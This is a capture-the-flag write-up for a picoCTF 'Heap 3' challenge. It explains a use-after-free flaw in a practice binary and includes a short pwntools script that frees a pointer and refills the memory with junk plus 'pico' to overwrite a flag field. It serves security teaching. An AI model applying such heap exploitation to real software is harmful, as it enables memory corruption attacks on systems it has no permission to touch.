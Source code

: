 # CTF Write-Up: [Heap 3][Binary Exploitation]

## Description
>This program mishandles memory. Can you exploit it to get the flag?


## Flag
The flag you obtained after solving the challenge. (e.g., `picoCTF{now_thats_free_real_estate_79173b73}`)

## Difficulty
- **Difficulty Level:** [medium]

## Tools Used
- pwntools

## Write-Up

### Preparatory Phase
Static analysis reveals some potential issues regarding a `free_memory` function: ![alt text](images/image.png)
A user can free the `x` variable but the pointer to the memory address is not cleared. This can be problematic as after freeing `x`, the chuck of memory is still floating around can be used for malicious values. 

Our goal is to set `x->flag` to be "pico". We could attempt to write to `x->flag`.
![alt text](images/image-2.png)
However, unlike the previous two exercises [Heap 1] and [Heap 2] we do not know where the start of the buffer is located as we only given the value of `x->flag`: ![alt text](images/image-3.png)
The address also seems to be randomised each time I run the binary, therefore I need to rely on this `use-after-free` vulnerability.
![alt text](images/image-4.png)
> Different address

The final key observation is the following data structure: 
![alt text](images/image-5.png).

Since a char is 1 byte, it requires 30 bytes of data to reach the `flag` field. This is important for the attack phase where we will be allocating memory to this data structure.
![alt text](images/image-6.png)
### Attack Phase
![alt text](images/image-7.png)
Given these options from the binary, the steps of the attack are as follows
1. Free the value at `x`
2. Allocate 35 bytes of memory and write to it 30 bytes of junk + "pico"
3. Now the pointer that was freed from `x` will point to our malicious payload. 
4. Press `4` to check for our win.
![alt text](images/image-1.png)
### Final Solution/Payload
```py
from pwn import *

host = 'tethys.picoctf.net'
port = 61865
io = remote(host, port)

response = io.recv()
io.sendline(b'5')
response = io.recv()
print(response)

io.sendline(b'2')
io.recv()
io.sendline(b'35')
io.recv()
payload = b'A' * 30 
payload += b'pico'
io.sendline(payload)
response = io.recv()
io.sendline(b'4')
response = io.recv()
print(response)

```

### Lessons Learnt

## References
- https://www.automox.com/blog/vulnerability-definition-use-after-free
- https://cwe.mitre.org/data/definitions/416.html
- https://www.ctfrecipes.com/pwn/heap-exploitation/use-after-free
- [Recent example of Firefox case study](#https://thehackernews.com/2024/10/mozilla-warns-of-active-exploitation-in.html)
